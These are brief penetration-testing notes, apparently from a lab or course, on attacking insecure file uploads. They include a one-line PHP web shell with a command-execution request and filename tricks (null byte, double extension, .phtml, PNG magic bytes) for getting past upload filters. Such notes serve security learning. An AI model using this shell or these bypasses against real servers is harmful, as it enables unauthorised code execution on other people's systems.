


# Insecure File Upload

### Insecure File Upload - Introduction

When testing file uploads look for code execution, overwriting existing files, and DoS

### Insecure File Upload - Basic Bypass

Check file upload functionality, determine where the content filtering happens

Find where the files are stored by fuzzing with gobuster, ffuf, wfuzz, etc.

Simple PHP shell `<?php system($_GET['cmd']); ?>`

Send a GET request to target_ip/upload_folder/cmd.php?cmd=whoami

### Insecure File Upload - Magic Bytes

Bypass filtering with null bytes (only works on older web servers) 

`logo.php%00.png`

Adding a second, valid file extension can allow the shell to be executed 

`logo.php.png`

Look into htaccess upload https://thibaud-robin.fr/articles/bypass-filter-upload/

### Insecure File Upload - Challenge

Bypass client side filter by editing request in Burp suite

Bypass server side magic byte filter by using a PNG magic byte

Bypass extension filtering with .phtml instead of php

**Walkthrough**

Same as above
